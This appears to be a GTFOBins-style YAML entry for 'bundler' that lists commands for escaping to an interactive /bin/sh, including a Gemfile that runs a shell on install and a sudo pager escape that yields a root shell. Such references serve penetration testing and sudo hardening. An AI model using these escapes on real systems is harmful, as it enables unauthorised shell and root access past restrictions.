 ```yaml
---
functions:
  shell:
    - description: This invokes the default pager, which is likely to be  [`less`](/gtfobins/man/), other functions may apply.
      code: |
        bundler help
        !/bin/sh
    - code: |
        TF=$(mktemp -d)
        touch $TF/Gemfile
        cd $TF
        bundler exec /bin/sh
    - description: This spawns an interactive shell via [`irb`](/gtfobins/irb/).
      code: |
        TF=$(mktemp -d)
        touch $TF/Gemfile
        cd $TF
        bundler console
        system('/bin/sh -c /bin/sh')
    - code: |
        TF=$(mktemp -d)
        echo 'system("/bin/sh")' > $TF/Gemfile
        cd $TF
        bundler install
  sudo:
    - description: This invokes the default pager, which is likely to be  [`less`](/gtfobins/man/), other functions may apply.
      code: |
        sudo bundler help
        !/bin/sh
---
```

